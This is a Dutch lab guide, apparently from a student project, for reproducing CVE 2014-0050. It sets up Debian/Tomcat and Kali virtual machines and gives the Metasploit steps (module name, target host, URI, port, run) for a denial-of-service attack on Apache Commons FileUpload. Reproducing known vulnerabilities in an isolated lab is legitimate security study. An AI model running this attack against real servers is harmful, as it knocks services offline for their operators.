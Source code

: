 # User Deployment Guide - CVE 2014-0050

Deze handleiding beschrijft hoe je CVE 2014-0050 kan nabootsen. 

## Inhoudsopgave

-   [Vereisten](#vereisten)
-   [Environement Setup](#environement-setup)
-   [Metasploit Framework](#metasploit)
# Vereisten<a name="vereisten"></a>

Om de Linux machines te installeren en configureren, zijn de volgende vereisten nodig:

-   [Debian](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/8.11/81164.7z/download)
-   [Kali](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
# Environement Setup <a name="environement-setup"></a>

- Run het script `vbox-auto.sh` deze zal vragen voor paden van je gedownloade vdi's zie [Vereisten](#vereisten) geef deze in en de 2 linux machines zouden moeten starten.

- Navigeer jezelf naar de aangemaakte `Shared Folder` met de naam `NPE_Shared` deze zou zich moeten bevinden in de home-directory van je host systeem.

- Nu kan je inloggen op de debian vm met `username = osboxes , password = osboxes.org`

- de vdi maakt gebruik van qwerty als je zoals mij met azerty werkt, open dan de terminal na het inloggen en geef de volgende commando in `setxkbmap be`

- Nu omdat we met een oude versie van debian` (8.11 Jessie)` werken zijn er enkele problemen waardoor we de guest-additions niet kunnen installeren voor toegang te krijgen tot de Shared Folder, deze moeten we eerst oplossen.

- Ten eerste kloppen de repo's van de vm niet meer aangezien ` (8.11 Jessie)` end of life is, worden die repo's in archive gestoken. Daarom moeten we naar de `/etc/apt/sources.list` en deze aanpassen.

- Voeg de volgene repo's toe aan de `sources.list`
- `deb http://archive.debian.org/debian/ jessie main non-free contrib`
- `deb-src http://archive.debian.org/debian/ jessie main non-free contrib`

- In de zelfde file zet een `#` voor alles met `deb cdrom` om cdrom problemen te vermijden.

- Voor nu een `apt-get update` uit om de repo's te updaten

- De volgende stap is de juiste kernel-headers installeren die nodig zijn om guest-additions te installeren.

- Doe een `apt search linux-headers`

- Nu kan je de nodige linux-headers zien, installeer met `apt-get install linux-headers-3.16.0-6-all` de headers.

- Hierna is je vm klaar om guest additions te installeren, doe dit met `apt-get install virtualbox-guest-utils`

- Om guest additions te doen werken moet je een reboot van het systeem doen.

- Na de reboot kan je in `/media/` je shared folder terugvinden.

- Voer hier het script `apache-tomcat-install.sh` uit, deze zal de tomcat server opstellen.

- Nu heb je een werkende `apache-tomcat server`



# Metasploit Framework <a name="metasploit"></a>

Metasploit is verantwoordelijk voor de exploit te kunnen uitvoeren.

Begin aan deze stap na het configureren van de debian server.

- Open `metasploit framework` in de zoekbalk.
- Eens je in de msf console zit moet je de exploit kiezen met `use auxiliary/dos/http/apache_commons_fileupload_dos`

- `apache_commons_fileupload_dos` heeft veel verschillende parameters maar om het simpel te houden gaan we enkel gebruik maken van de parameters die nodig zijn om de exploit te runnen.
 ## Parameters
- set rhosts `<rhost>` -> `<rhost>` moet het ip zijn van de target bv. `192.168.76.105`

- set targeturi `<uri>` -> `<uri>` moet de url zijn van de target bv. `/` maar in ons geval is dit de web-applicatie die we hebben gedeployed op de debian server `/sample-multipart-form/multipartForm`

- set rport `<rport>` -> `<rport>` dit is de port waar de tomcat server op draait, dit is standaard `8080` en rport staat ook standaard op `8080` dus deze parameter is eerder optioneel als je tomcat op een andere port draait.


Nu kan je de exploit runnen met het commando `run`

Op de debian server zou Tomcat 99% of meer van de CPU moeten benutten:)


















